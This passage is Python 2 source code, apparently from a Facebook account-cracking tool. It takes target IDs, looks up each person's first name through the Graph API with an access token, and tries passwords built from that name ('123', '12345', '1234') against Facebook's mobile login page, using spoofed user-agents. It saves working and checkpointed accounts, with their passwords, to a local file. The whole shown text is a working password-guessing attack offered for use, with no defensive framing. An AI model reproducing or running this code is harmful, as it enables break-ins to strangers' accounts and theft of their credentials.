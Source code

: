 	print '\033[0;97m   • \033[0;97mJumlah ID\033[0;97m :\033[0;97m '+str(len(id))
	print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
        print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	
### MAIN USA ###
	def main(arg):
		global CP,oks
		em = arg
		try:
			os.mkdir('done')
		except OSError:
			pass
		try:
			an = requests.get('https://graph.facebook.com/'+em+'/?access_token='+toket)
			v = json.loads(an.text)
			px = v['first_name'].lower()+'123'
			rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : px, "login" : "submit"}, headers = { "user-agent" : "Mozilla/5.0 (Linux; U; Android 2.2) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1"})
			xo = rex.content
			if 'mbasic_logout_button' in xo or 'save-device' in xo:
				print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+px
				oke = open('done/usa.txt', 'a')
				oke.write('\n   [OK] '+em+' • '+px)
				oke.close()
				oks.append(em)
			else :
				if 'checkpoint' in xo:
					print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+px
					cek = open('done/usa.txt', 'a')
					cek.write('\n   [CP] '+em+' • '+px)
					cek.close()
					CP.append(em)
				else:
					px2 = v['first_name'].lower()+'12345'
					rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : px2, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.1.2; AFTMM Build/NS6265; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/70.0.3538.110 Mobile Safari/537.36"})
					xo = rex.content
					if 'mbasic_logout_button' in xo or 'save-device' in xo:
						print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+px2
						oke = open('done/usa.txt', 'a')
						oke.write('\n   [OK] '+em+' • '+px2)
						oke.close()
						oks.append(em)
					else:
						if 'checkpoint' in xo:
							print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+px2
							cek = open('done/usa.txt', 'a')
							cek.write('\n   [CP] '+em+' • '+px2)
							cek.close()
							CP.append(em)
						else:
							px3 = v['first_name'].lower()+'1234'
							rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : px3, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 6.0.1; SM-G532G Build/MMB29T) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.83 Mobile Safari/537.36"})
							xo = rex.content
							if 'mbasic_logout_button' in xo or 'save-device' in xo:
								print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+px3
								oke = open('done/usa.txt', 'a')
								oke.write('\n   [OK] '+em+' • '+px3)
								oke.close()